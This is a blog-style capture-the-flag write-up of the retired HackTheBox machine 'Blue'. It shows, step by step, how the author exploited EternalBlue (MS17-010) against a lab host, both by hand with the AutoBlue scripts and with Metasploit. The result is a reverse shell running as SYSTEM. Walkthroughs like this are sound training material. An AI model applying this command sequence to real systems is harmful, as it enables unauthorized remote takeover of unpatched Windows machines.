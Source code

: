 ```yaml
---
layout: post
title:  "HackTheBox - Blue"
---
```

HackTheBox is a great platform for hackers/penetration testers to practice and learn with. Their network consists of 2 machine pools - Active and Retired. Active machines have no writeups and grant points to your profile and allow you to rank up and climb the leaderboard. Retired machines have many writeups and are great for learning and completing for fun, but don’t give points towards a higher rank. “Blue” is an older retired HackTheBox machine, but is widely considered great practice for the OSCP certification, so I completed it as part of my Path to OSCP.

![BlueInfo](/assets/BlueInfo.png)

![BlueDone](/assets/BlueDone.png)

Blue is considered by many on HackTheBox to be similar to what you'd see in the OSCP labs. This makes sense as it makes you leverage the NSA's leaked EternalBlue zero-day exploit from 2017. This is one of my favorite exploits because I love following Nation State activity and I closely followed the events that unfolded between the NSA leak and the devastating WannaCry ransomware that spread using EternalBlue. I've used this exploit before on a VulnHub machine, but not yet on HackTheBox, so I'm excited to now have it on my profile. I decided to exploit this machine both manually and with Metasploit/Meterpreter as it's good practice for the OSCP, where you're limited on Metasploit usage on the exam. I'll be showing both in this writeup!

## Manual Exploitation

First, I start by enumerating the open ports on 10.10.10.40 with the usual nmap scan
```
nmap -sC -sV -oA nmap 10.10.10.40
```

![BlueNmap](/assets/BlueNmap.png)

The nmap scan shows me this is a Windows 7 SP1 machine hosting an SMB share. SMB is always a great way to gain a foothold on a target as it can hold sensitive files that could allow privilege escalation. Lets enumerate SMB more to see what we're working with. Since we see that anonymous login isn't allowed from the nmap scan, I'm going to utilize nmap's scripting engine to look for SMB vulnerabilites
```
nmap --script smb-vuln* -p 139,445 10.10.10.40
```

![BlueSMBEnum](/assets/BlueSMBEnum.png)

Here, my wildcard on smb-vuln tells nmap to check for 3 SMB vulnerabilities in it's available scripts - MS10-054, MS10-061, and MS17-010 (EternalBlue). MS17-010 comes back as a positive vulnerability. At this point I knew it'd be good practice to exploit this manually for the OSCP since I had already exploited with Metasploit/Meterpreter a year or so ago on a VulnHub machine. Looking around on Google I find AutoBlue on Github, so I read the README and other instructions and clone it to my attacking machine
```
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
```

![BlueEBClone](/assets/BlueEBClone.png)

In the AutoBlue repo there is a python script that can check your target for the EternalBlue vulnerability. Just to be sure, I run this
```
python eternalblue_checker.py 10.10.10.40
```

![BlueEBConfirmed](/assets/BlueEBConfirmed.png)

Now that this has been confirmed by both nmap and the eternalblue_checker.py script from the AutoBlue repo, I can generate my shellcode payload using the shell_prep.sh bash script included in the repo. This is basically automating the creation of x86 and x64 shellcode using msfvenom. I chose to create a regular CMD shell and stageless payload since I'm not using Meterpreter yet
```
https://github.com/3ndG4me/AutoBlue-MS17-010/blob/master/shellcode/shell_prep.sh
```

```
./shell_prep.sh
```

![BlueGenerateShellcode](/assets/BlueGenerateShellcode.png)

For convenience, I move my shellcode to the exploit/AutoBlue directory and choose the merged shellcode (x86 and x64)

![BlueMoveShellcode](/assets/BlueMoveShellcode.png)

The AutoBlue repo also contains a neat bash shell script to set up your Metasploit multi handler/listener. This is still within my goal of manual exploitation as the OSCP exam allows full usage of the multi/handler. I run this and get my listener ready to receive the shell

```
https://github.com/3ndG4me/AutoBlue-MS17-010/blob/master/listener_prep.sh
```

```
./listener_prep.sh
```

![BlueListenerPrep](/assets/BlueListenerPrep.png)

And now I have my listener ready to go

![BlueMultiHandler](/assets/BlueMultiHandler.png)

Now on my attacking machine, I need to run the exploit. The arguements against the eternalblue_exploit7.py script are the vulnerable host and my shellcode of choice. Once I run the exploit on my attacking machine, I get an open session in my multi/handler
```
python eternalblue_exploit7.py 10.10.10.40 sc_all.bin
```

![BlueExploit](/assets/BlueExploit.png)

Once I check the session that connected to my multi/handler, I am now SYSTEM on 10.10.10.40

![BlueRoot](/assets/BlueRoot.png)

Now I grab the flags to get credit for the box on my HackTheBox profile

![BlueFlags](/assets/BlueFlags.png)

## Metasploit/Meterpreter Exploitation

To exploit Blue with Metasploit, I start msfconsole
```
msfconsole
```

![BlueMSConsole](/assets/BlueMSConsole.png)

Using the scanner/smb/smb_ms17_010 auxiliary module I can again confirm Blue is vulnerable to MS17-010 (EternalBlue)
```
use auxiliary/scanner/smb/smb_ms17_010

show options

set RHOSTS 10.10.10.40

run
```

![BlueMSEBConfirmed](/assets/BlueMSEBConfirmed.png)

Now that I've confirmed Blue is vulnerable, I can search for my options related to EternalBlue
```
search eternalblue
```

![ BlueMSEBSearch](/assets/BlueMSEBSearch.png)

Option 2 is the best in my situation as the other EtneralBlue option is for Windows 8 and the other modules are either auxiliary or related to EternalRomance/EternalChampion/EternalSynergy (Part of the NSA leak). Now I can choose my exploit and set the options is preparation for the SYSTEM shell
```
use exploit/windows/smb/ms17_010_eternalblue

show options

set payload windows/x64/meterpreter/reverse_tcp

set RHOSTS 10.10.10.40
```

![BlueMSSetOptions](/assets/BlueMSSetOptions.png)

Lastly I set my LHOST to my VPN IP and run the exploit. I now have a Meterpreter shell running as SYSTEM on Blue
```
set LHOST tun0

exploit

shell
```

![BlueMSRoot](/assets/BlueMSRoot.png)

## Conclusion

Blue was a really easy and fun box. It didn't take much effort to find out what the way in was, but since I love the exploit and the history behind it I had a great time. Good OSCP practice and another box to add to my profile. Hope you learned something in this writeup, feel free to contact me on social media or the HackTheBox discord if you have any questions or want to chat!